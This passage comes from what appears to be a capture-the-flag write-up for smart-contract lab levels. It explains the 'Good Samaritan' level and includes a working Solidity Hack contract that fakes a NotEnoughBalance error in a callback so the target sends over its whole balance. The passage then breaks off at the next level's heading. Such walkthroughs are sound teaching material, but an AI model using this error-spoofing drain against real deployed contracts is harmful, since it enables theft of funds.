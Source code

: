 I then called `IForta.setDetectionBot` to register it. This patches the security vulnerability detailed above. The level is complete!

## <a id="27"></a>Level 27 - Good Samaritan

### Objective

1.  Drain the funds from the Good Samaritan's wallet.

<details><summary>Level Contract</summary></details>

### Exploit

Looking at `GoodSamaritan` we can see that `requestDonation` sends 10 coins at a time to the address requesting. If the `GoodSamaritan` has less than 10 coins, the **complete balance will be transferred instead**. This is exactly what we want to happen.

To determine if that condition is true, the function uses a `try catch`. The `catch` looks at the error and compares it to the "NotEnoughBalance" error. We can exploit this by writing a hack contract that will **mimic** this error in specific conditions.

The Hack contract needs to inherit from `INotifyable`. This way Hack will be notified when coins are transfered and how much. If we can throw the `NotEnoughBalance` error when 10 coins are transfered, the complete balance of the `GoodSamaritan` will be transfered.

```js
contract Hack is INotifyable{
    GoodSamaritan target;
    error NotEnoughBalance();

    constructor(address _targetAddress) {
        target = GoodSamaritan(_targetAddress);
    }

    function attack() external {
        target.requestDonation();
    }

    function notify(uint256 amount) external {
        if(amount == 10){
            revert NotEnoughBalance();
        }
    }
}
```

By calling the `attack` function from our Hack contract, the complete balance of `GoodSamaritan` will be transfered to us.

## <a id="28"></a>Level 28 - Gatekeeper Three

### Objective
